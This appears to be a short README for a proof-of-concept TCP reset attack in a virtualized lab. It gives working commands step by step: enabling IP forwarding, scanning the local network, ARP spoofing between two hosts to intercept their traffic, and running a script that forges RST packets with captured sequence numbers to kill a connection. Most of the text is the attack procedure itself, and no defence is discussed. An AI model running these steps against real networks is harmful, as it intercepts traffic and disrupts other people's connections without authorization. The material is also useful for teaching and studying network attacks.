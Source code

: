 # TCP-reset-attack-PoC
A PoC that proves the TCP reset attack.
All the logical addresses, port, Sequence number and Acknowledgement number values in the following
commands are just examples. To be noticed that all the machines are each on a virtualized environment.
Steps:
1) Enable the IP forwarding on the attacker system:
echo 1 > /proc/sys/net/ipv4/ip_forward

2) We use the arp-scan command to find the IP addresses of the machines connected to the local network:
arp-scan -interface=eth0 –localnet

3) We used arpspoofing to intercept the traffic between the host A and host B using the IP addresses found in the last
step. Notice that the two hosts have the 192.168.0.40, respectively 192.168.0.39 IP addresses.
arpspoof -i eth0 -t 192.168.0.39 192.168.0.40
arpspoof -i eth0 -t 192.168.0.40 192.168.0.39

4) Next we filter the traffic to see only the packets we are interested on using Wireshark:
(ip.src==192.168.0.40&ip.dst==192.168.0.39)||(ip.src==192.168.0.39&ip.dst==192.168.0.40)

5) This way we find the application ports of both hosts, and also from the last packets we are able to get the right
Acknowledgement number and Sequence number to attack host A. Next we send a forged TCP packet with RST bit
set and the correct Sequence number and Acknowledgement number to the host A and therefore host A closes the
connection.
python script.py -S 192.168.0.40 -s 23 -D 192.168.0.39 -d 50638 -a 2620146587 -q 1393205321


Full article at: https://www.overleaf.com/read/cdsdbgcmkhvg
